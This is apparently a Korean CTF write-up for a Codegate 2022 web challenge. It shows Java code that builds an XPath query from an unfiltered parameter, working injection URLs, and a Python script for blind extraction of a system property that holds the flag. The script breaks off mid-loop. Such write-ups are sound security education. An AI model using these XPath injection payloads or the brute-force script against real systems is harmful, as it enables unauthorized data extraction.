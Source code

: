 
해당 문제의 핵심이 되는 부분은 다음과 같다.

```java
...
private String[] doReadArticle(HttpServletRequest req) {
    String id = (String) req.getSession().getAttribute("id");
    String idx = req.getParameter("idx");
    if ("null".equals(id) || idx == null) {
        return null;
    }
    try {
        Document document = DocumentBuilderFactory.newInstance().newDocumentBuilder().parse(new InputSource(new FileInputStream(new File(this.tmpDir + "/article/", id + ".xml"))));
        XPath xpath = XPathFactory.newInstance().newXPath();
        return new String[]{decBase64(((String) xpath.evaluate("//article[@idx='" + idx + "']/title/text()", document, XPathConstants.STRING)).trim()), decBase64(((String) xpath.evaluate("//article[@idx='" + idx + "']/content/text()", document, XPathConstants.STRING)).trim())};
    } catch (Exception e) {
        System.out.println(e.getMessage());
        return null;
    }
}
...
```

자세히 보면 return 할 때 XPath를 사용하는 것을 알 수 있는데, 별다른 Filtering이 존재하지 않는다. 그러므로 우리는 XPath Injection에 취약한 것을 알 수 있다.

실제로 다음 URL로 접근하면 성공적으로 Payload가 들어가 본래 1을 요청했던것과 같은 반응이 뜨는 것을 확인할 수 있다.

```
http://3.39.79.180/blog/read?idx=1'+or+1='
```

이제 Flag를 봐야하는데 Flag의 위치를 살펴보면 아래의 DockerFile에 명시되어 있다.

```docker
...
RUN echo 'flag=codegate2022{md5(flag)}' >> /usr/local/tomcat/conf/catalina.properties
...
```

catalina.properties 파일에 flag가 적힌것인데, 처음에는 파일을 읽어야하는줄 알았다. 그러나 해당 값이 들어가면 시스템 프로퍼티에 저장되어 해당 프로퍼티를 읽으면된다. 그리고 XPath는 시스템 프로퍼티를 읽을 수 있는 기능을 제공한다.

[https://developer.mozilla.org/ko/docs/Web/XPath/Functions/system-property](https://developer.mozilla.org/ko/docs/Web/XPath/Functions/system-property)

이를 통해 다음과 같이 실험을 했고 참/거짓 반응 차이를 통해 성공적으로 먹히는 것을 확인 할수 있었다.

```
http://3.39.79.180/blog/read?idx=1'+and+starts-with(system-property('flag'),'codegate2022%7b')+or+1='
```

그리고 아래 스크립트를 만들어 돌려서 최종 Flag를 획득했다.

```python
import requests

url = "http://3.39.79.180/blog/read"
dic = "abcdefghijklmnopqrstuvwxyz0123456789"
cookie = {
    'JSESSIONID': '32EF74FA3B3F0E61927AFED2F255B2BE'
}
flag = 'bcb'
for j in range(33):
    for i in dic:
        params = {"idx" : "1' and starts-with(system-property('flag'),'codegate2022{"+ str(flag) + str(i) +"') or 1='"}
```